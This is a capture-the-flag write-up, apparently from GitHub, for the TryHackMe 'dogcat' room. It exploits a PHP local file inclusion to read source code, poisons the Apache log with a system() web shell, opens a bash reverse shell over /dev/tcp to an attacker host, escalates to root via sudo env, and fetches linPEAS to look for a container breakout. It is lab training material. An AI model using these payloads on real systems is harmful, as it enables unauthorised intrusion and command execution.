 # dogcat
I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

---

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!\
This machine may take a few minutes to fully start up.

[Link](https://tryhackme.com/room/dogcat) to the room

---

Let's start with a version and script scan against the target machine
```
$ sudo nmap -sV -sC <machine_ip> -Pn -n --disable-arp-ping

<...snip...>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/009bc8a6-b486-4d12-9bd3-484bdc1a8172)

The web app is about images of cats and dogs, no surprise. Let's fuzz for hidden content.
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/FUZZ"

<...snip...>
cats                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
dogs                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
```

We assume that these folders contain the content of the web app (images of cats and dogs).
But we don't have permissions to access them.

Let's try making use of the first flag's hint: *There's more to *view* than just cats and dogs...*.\
Notice that view is the name of the query argument when calling the api for a random cat/dog image.
We can try and fuzz to discover more values that are accepted by that argument:
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/?view=FUZZ" -fs 455

<...snip...>
category                [Status: 200, Size: 759, Words: 106, Lines: 24, Duration: 39ms]
<...snip...>
```

The command returns many entries. Note that `-fs 455` is used to exclude entries that return the standard response of "Sorry, only dogs or cats are allowed".

Navigating to `http://<machine_ip>/?view=catalog`, we get the following:
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/70e44b57-bf4b-45cd-a15e-889d8d9d2e49)

Allright, now we know that the value of `view` is attached to ".php" extension and then passed to the `include` function.\
Since this is the case, we can use a php filter to disclose the source code of php files in the server. But first, lets see what php files do we have there:
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt:FUZZ -u "http://<machine_ip>/FUZZ" -e .php

<...snip...>
flag.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
<...snip...>
```

Interestingly, we found a flag file. Now we can use the read filter to get its content encoded in base64.\
When testing the payload, I was getting the "Sorry, only dogs or cats are allowed" error, so I tried many assumptions on how the app is verifying this conditions.
One of them, which later succeeded, is that the app checks if the value of the path contains "cat" or "dog".\
Hence, to get the flag, we pass the value `http://<machine_ip>/?view=php://filter/read=convert.base64-encode/resource=cats/../flag`. We used "cats" because this is an existing folder on the server, and from which we know the relative location of "flag.php".

We decode the base64 string and get our first flag.

Having access to php files on the server, we need to figure out how to get more access.\
Let's get the index file (same directory as flag.php) and see how the app actually works.
```PHP
<...snip...>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
<...snip...>
```
First, we now validate how the app decides when a value of *view* is valid. And second, the url argument *ext* is used to specify the extension of the file to include and thus, we can now include whatever file (according to permissions) on the server.

One common method to exploit LFI vulnerabilities is log poisonning. For this, we poison our user-agent to acheive RCE when we include the log file.\

- Log file location : `/var/log/apache2/access.log`
- User Agent : `<h1><?php system($_GET['cmd']); ?></h1>`
- Result when visiting `http://<machine_ip>/?view=cats/../../../../var/log/apache2/access.log&ext=&cmd=id`
![Screenshot_2023-12-08_20_29_42](https://github.com/elomarii/CTF_4_DAY/assets/106914699/62233aba-1ee3-4977-9435-09672e19054a)


Now that we can execute commands on the target machine, let's first get a reverse shell.\
We can use Burpsuite to manipulate the http request, the crafted request I used is the following, where the bash command used is `bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'`. Don't forget to started a listener on your machine before sending the request.
```http
GET /?view=cats/../../../../var/log/apache2/access.log&ext=&cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/<rhost>/<rport>+<%261' HTTP/1.1
Host: <machine_ip>
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: nothing
Connection: close
Cache-Control: max-age=0
```

We find the second flag on the parent folder of where the app lives (execute command `ls ..`).

For our next flag, we can try and see if `www-data` (our user) can execute any commands as root with no password. And bang, yes we can:
```
www-data@e43f08c3313d:/var/www/html$ sudo -l

Matching Defaults entries for www-data on e43f08c3313d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on e43f08c3313d:
    (root) NOPASSWD: /usr/bin/env
```

We can use `env` to execute commands as root. As a consequence, we enumerate the content of `/root` and find the third flag.
```
www-data@e43f08c3313d:/var/www/html$ sudo env cat /root/flag3.txt
```

As for the last flag, and with respect to the room description, we need to beak out of the docker container running the web app.

The container doesn't appear to have internet connectivity so that we can download files directly and even available commands and binaries are very limited. Thus, to upload our `linPEAS.sh`, 1- we start an http server on the attack machine and 2- we make sure the file is accessible by the server, and finally we use `curl` (luckiliy available on the target machine) to download the script.
```
attacker@kali:/$ mkdir http; cp linPEAS.sh http/; cd http

attacker@kali:/http$ sudo python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
<machine_ip> - - [29/Feb/2024 13:50:57] "GET /linPEAS.sh HTTP/1.1" 200 -
```
```
www-data@e43f08c3313d:/var/www/html$ curl http://<rhost>/linPEAS.sh > linPEAS.sh

www-data@e43f08c3313d:/var/www/html$ chmod +x linPEAS.sh

www-data@e43f08c3313d:/var/www/html$ ./linPEAS.sh

<...snip...>
╔══════════╣ Container & breakout enumeration
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout            
═╣ Container ID ................... e43f08c3313d═╣ Container Full ID .............. e43f08c3313d3b59dfd6c9b78b723515a60cc9cf08536b6330fcfa6a8fe9b22e
═╣ Seccomp enabled? ............... enabled
═╣ AppArmor profile? .............. docker-default (enforce)
═╣ User proc namespace? ........... enabled         0          0 4294967295
═╣ Vulnerable to CVE-2019-5021 .... No
                                                                                              
══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts                                                    
═╣ /proc mounted? ................. No                                                        
═╣ /dev mounted? .................. No                                                        
═╣ Run unshare .................... No                                                        
═╣ release_agent breakout 1........ Yes                                                       
═╣ release_agent breakout 2........ No
═╣ core_pattern breakout .......... No                                                        
═╣ binfmt_misc breakout ........... No                                                        
═╣ uevent_helper breakout ......... No                                                        
═╣ is modprobe present ............ No                                                        
═╣ DoS via panic_on_oom ........... No                                                        
═╣ DoS via panic_sys_fs ........... No                                                        
═╣ DoS via sysreq_trigger_dos ..... No                                                        
═╣ /proc/config.gz readable ....... No                                                        
═╣ /proc/sched_debug readable ..... Yes                                                       
═╣ /proc/*/mountinfo readable ..... Yes
═╣ /sys/kernel/security present ... Yes
═╣ /sys/kernel/security writable .. No
<...snip...>
```





